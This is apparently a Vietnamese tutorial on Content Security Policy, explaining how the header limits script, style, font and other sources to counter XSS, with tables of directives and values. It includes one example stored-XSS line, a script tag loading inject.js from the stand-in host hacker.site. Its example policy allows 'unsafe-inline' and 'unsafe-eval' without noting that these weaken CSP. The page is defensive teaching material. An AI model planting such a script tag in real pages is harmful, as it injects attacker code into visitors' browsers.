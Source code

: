 # CSP

## 1. Content Security Policy (CSP) là gì

![](https://www.imperva.com/learn/wp-content/uploads/sites/13/2020/11/content-security-policy-csp-header-1024x395.png)

CSP là chính sách bảo mật nội dung, được sử dụng để xác định các nguồn nội dung an toàn trên website mà trình duyệt có thể tải về cho người dùng. 

CSP là biện pháp đối phó rất hiệu quả với kiểu hack chèn mã độc Cross Site Scripting (XSS).

Content Security Policy có thể được coi là một phiên bản nâng cao của X-XSS-Protection header ở trên. 

Trong khi X-XSS-Protection sẽ cản toàn bộ các scripts đi kèm với request nhưng nó sẽ không thể cả được những tấn công XSS mà sẽ lưu lại script độc hại trên server của bạn hoặc tải từ một nguồn khác chứa sript độc hại trong đó.

CSP cho bạn ngôn ngữ để chỉ ra những nơi mà trình duyệt được phép tải tài nguyên về. Bạn có thể định nghĩa một danh sách các nguồn scripts, ảnh, font chữ, css cho từng cái một, cũng như kiểm tra hash của các tài nguyên đã được tải đó với chữ kí có sẵn.

Khi truy cập vào một trang web, trình duyệt sẽ gửi yêu cầu tải nội dung đến máy chủ. 

Máy chủ sẽ gửi trả lại nội dung của trang web này cho trình duyệt, trong đó bao gồm các file CSS, Javascript, Font, Frame...

Trình duyệt sẽ tải toàn bộ những file này, vì nó được chỉ định phải làm như vậy từ mã nguồn của trang web để có thể hiển thị nội dung.

Hacker có thể lợi dụng điều này để đặt một đoạn mã ở trong mã nguồn (những người sử dụng mã nguồn không rõ nguồn gốc hoặc hàng nulled rất hay bị dính) hoặc trong một phần bình luận trên trang web để tải một số file Javascript độc hại từ một nguồn bên ngoài.

```javascript
<script src="http://hacker.site/inject.js"></script>
```

Đây là dạng tấn công XSS Stored rất phổ biến mà các website WordPress hay gặp phải. 

Nhờ CSP header, `hacker.site` không nằm trong whitelist nên không cách nào tải và thực thi được, từ đó bảo vệ bạn và người truy cập của bạn.

Trình duyệt sẽ không tự biết được có nên tải những file này hay không, nó chỉ thực thi theo yêu cầu, cho dù nguồn gốc của file Javascript đến đâu.

Để bật CSP thì response header trả về trong request cần phải bao gồm `Content-Security-Policy` 

Một số trình duyệt liên tục thu thập thông tin người sử dụng, hoặc người dùng cài đặt những extension không rõ nguồn gốc dẫn tới việc bị chèn mã độc, quảng cáo trên trang mặc dù chủ website không cố ý. 

Nhờ CSP, người dùng sẽ truy cập website chúng ta với giao diện "sạch" nhất có thể vì trình duyệt đã chặn ngay từ đầu rồi.

## 2. Tạo danh sách content source an toàn

Tạo một danh sách CSP cho phép chỉ định các nguồn nội dung an toàn mà trình duyệt có thể tải. 

Bằng cách này có thể bảo vệ người truy cập và chính bạn khỏi các mã độc hại do hacker inject trang web.

### a. Các chỉ thị của CSP

Không chỉ ngăn chặn tải Javascript, CSP cũng có tác dụng với hình ảnh, CSS, frame, webfont, media và rất nhiều chỉ thị (directive) khác. 

Điều này tạo nên một lớp bảo mật vừa đủ cho các website, giúp người truy cập chỉ tải và sử dụng đúng những thứ bạn mong muốn.

| directive   | Giải thích                                                      |
|-------------|-----------------------------------------------------------------|
| script-src  | Chỉ định những nguồn được tải cho các tài nguyên Javascript     |
| style-src   | Chỉ định những nguồn được tải cho các tài nguyên CSS            |
| connect-src | Chỉ định những nguồn được tải cho các request Ajax, WebSocket   |
| font-src    | Chỉ định những nguồn được tải cho các tài nguyên là webfont     |
| img-src     | Chỉ định những nguồn được tải cho các tài nguyên là hình ảnh    |
| frame-src   | 	Chỉ định những nguồn được tải cho các tài nguyên là `<iframe>` |

### b. Thuộc tính và giá trị của CSP directive

Mỗi chỉ thị có nhiều domain được thêm vào khác nhau, tuy nhiên có một số cách sử dụng nên biết để có thể dùng thoải mái hơn:

| Value CSP directive | Giải thích                                                                                                        |
|---------------------|-------------------------------------------------------------------------------------------------------------------|
| *                   | Giá trị wildcard, tương đương allow all                                                                           |
| ‘self’              | Là chính domain mà người dùng đang truy cập                                                                       |
| ‘none’              | Không cho phép tải từ bất cứ nguồn nào, kể cả domain hiện tại                                                     |
| data:               | Cho phép những tài nguyên sử dụng data: được tải, ví dụ hình ảnh mã hóa base64                                    |
| www.domain.com      | Cho phép tải từ www.domain.com. Tuy nhiên hãy lưu ý, www.domain.com và domain.com được xem là hoàn toàn khác nhau |
| domain.com          | 	Cho phép tải từ domain.com. Tuy nhiên không cho phép tải từ www.domain.com, sub.domain.com, cdn.domain.com,…     |
| *.domain.com        | Cho phép tải từ www.domain.com, sub.domain.com, cdn.domain.com,..                                                 |
| https://domain.com  | Chỉ cho phép tải từ domain.com sử dụng giao thức HTTPS                                                            |
| https:              | Chỉ cho phép tải từ nguồn sử dụng giao thức HTTPS                                                                 |


Ví dụ ta có đoạn CSP sau:

```
script-src 'self' 'unsafe-inline' 'unsafe-eval'
www.googletagmanager.com connect.facebook.net
    www.googleadservices.com www.google-analytics.com
    googleads.g.doubleclick.net onesignal.com
    tpc.googlesyndication.com
```

Vậy thì trình duyệt sẽ cho phép tải Javascript từ các nguồn sau:

* self
* unsafe-inline
* unsafe-eval
* www.googletagmanager.com, connect.facebook.net,...

## 3. Tham khảo 

* https://portswigger.net/web-security/cross-site-scripting/content-security-policy

* Check CSP: https://csp-evaluator.withgoogle.com/

